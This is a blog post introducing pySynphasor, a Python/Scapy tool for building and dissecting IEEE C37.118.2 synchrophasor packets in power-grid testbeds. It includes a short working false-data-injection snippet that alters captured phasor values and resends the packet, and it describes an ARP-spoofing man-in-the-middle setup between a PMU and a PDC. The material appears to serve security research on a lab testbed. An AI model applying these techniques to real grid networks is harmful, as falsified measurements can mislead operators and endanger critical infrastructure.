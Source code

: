 ```yaml
---
title: "pySynphasor: A Python Framework to Analyze, and Secure Synchrophasor Networks"
permalink: pySynphasor-python-based-pmu-packet-analyzer
date: 2025-06-02
excerpt: 
type: Blog
categories: 
tags: 
status:
---
```



Have you ever wanted to peek into the bytes flying between Phasor Measurement Units (PMUs) and PDCs?
What if you could _rebuild_ those packets, _inject false data_, and _test_ the grid’s resilience against real cyberattacks?
Welcome to **pySynphasor** — a powerful, open-source Python tool that enables packet-level manipulation of **IEEE C37.118.2** messages used in synchrophasor-based smart grids.

---

## ⚙️ What is pySynphasor?

`pySynphasor` is a Python module built on top of [Scapy](https://scapy.net/), tailored for:

- Parsing & building **IEEE C37.118.2** packets
- Injecting **False Data Injection Attacks (FDIA)**
- Running **MITM attacks** via ARP spoofing
- Creating **custom PDCs and µPMUs**

📦 Install it now:

```bash
pip install pySynphasor
```

🧠 Full docs + examples: [https://shuvangkardas.com/pySynphasor](https://shuvangkardas.com/pySynphasor)

---

## 🧪 1. Build a C37.118.2 Command Packet in Python

Let’s start simple — construct a basic command packet and inspect it.

### Code

```python
from pySynphasor.synphasor import *

cmdPkt = synphasor(type=4, idcode=10) / synphasor_cmd(cmd=5)
cmdPkt.show2()
print("Raw Bytes:", raw(cmdPkt))
```

### Output (Human-readable)

```
###[ IEEE C37.118.2 COMMON FRAME ]###
  synByte= 0xaa
  type= CMD
  version= Version 2
  framesize= 18
  idcode= 10

###[ synphasor command ]###
  cmd= 5
  chk= 0xb6b3
```

### Output (Machine/Raw)

```
Raw Bytes: b'\xaaB\x00\x12\x00\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\xb6\xb3'
```

🧩 Just two lines to build a fully valid C37.118 command frame!

---
## 🔍 2. Dissect Real Packets from a Testbed

Captured a packet between a PMU and a PDC? `pySynphasor` will convert it into human-friendly structure.

```python
packet = sniff(count=1)[0]  # Get a packet
packet.show()
```

Output shows layers like:
- Ethernet
- IP/TCP
- IEEE C37.118.2 Common Frame
- Phasor Data (complex numbers)
    
---

## 🎯 3. Inject a False Data Attack (FDIA)

Imagine intercepting a synchrophasor packet and injecting **fake phasor measurements**. Here’s how we did that in our testbed:

### Code

```python
synPkt = packet['synphasor_data']
synPkt.pmu_data[0].phasors[0] = complex(30, 20)
synPkt.pmu_data[0].phasors[1] = complex(70, 80)

del packet[IP].chksum, packet[TCP].chksum
send(packet)
```

### Visual: Before vs After FDIA

|Measurement|Before Attack|After Attack|
|---|---|---|
|Phasor 1|(2453 + 2444j)|(30 + 20j)|
|Phasor 2|(2954 + 2780j)|(70 + 80j)|
|Phasor 3|(2922 + 2079j)|(unchanged in this demo)|

---

## 🕵️ 4. Man-in-the-Middle (MITM) Attack Setup

We deployed 3 VMs: µPMU, pyPDC, and attacker. Using ARP spoofing, we rerouted traffic via the attacker.

### ARP Poisoning Snapshot

|Device|IP|Original MAC|Spoofed MAC|
|---|---|---|---|
|PMU|10.0.2.4|08:00:27:c9:f7:61|08:00:27:a7:1b:c3|
|PDC|10.0.2.7|08:00:27:69:58:64|08:00:27:a7:1b:c3|

📸 ARP Table Comparison:  
![ARP Poisoning](https://shuvangkardas.com/pySynphasor/assets/arp_poisoning.png)

---

## 💡 pySynphasor vs Other Tools

|Feature|pyPMU|pySynphasor ✅|
|---|---|---|
|Build C37.118.2 Packets|✅|✅|
|Dissect Captured Packets|❌|✅|
|Perform FDIA/MITM|❌|✅|
|Includes pyPDC (multi-PMU)|❌|✅|
|Scapy-powered for full control|❌|✅|

---

## 📈 Future Work

We're expanding pySynphasor to:

- Support **IEC 61850-90-5** protocol
    
- Add **fuzz testing** capabilities
    
- Build a **GUI dashboard** for researchers
    

---

## 🧠 Conclusion

**pySynphasor** is more than a packet tool — it's a testbed enabler, a vulnerability scanner, and a research catalyst for cyber-physical power systems.

🔗 GitHub: [github.com/shuvangkardas/pySynphasor](https://github.com/shuvangkardas/pySynphasor)  
📘 Paper: [Scalable cyber‐physical testbed for cybersecurity evaluation of synchrophasors in power systems](https://ietresearch.onlinelibrary.wiley.com/doi/pdf/10.1049/cps2.12106)
🌐 Docs: [shuvangkardas.com/pySynphasor](https://shuvangkardas.com/pySynphasor)

👉 If this helped you or sparked ideas, don’t forget to ⭐ the repo and share!


---

Shuvangkar Das, PhD, Knoxville, Tennessee, USA
### ☎ Connect with me
- Twitter: [https://twitter.com/shuvangkar_das](https://twitter.com/shuvangkar_das)
- LinkedIn: [https://www.linkedin.com/in/ShuvangkarDas/](https://www.linkedin.com/in/ShuvangkarDas/)
- YouTube: [https://www.youtube.com/ShuvangkarDas](https://www.youtube.com/ShuvangkarDas)






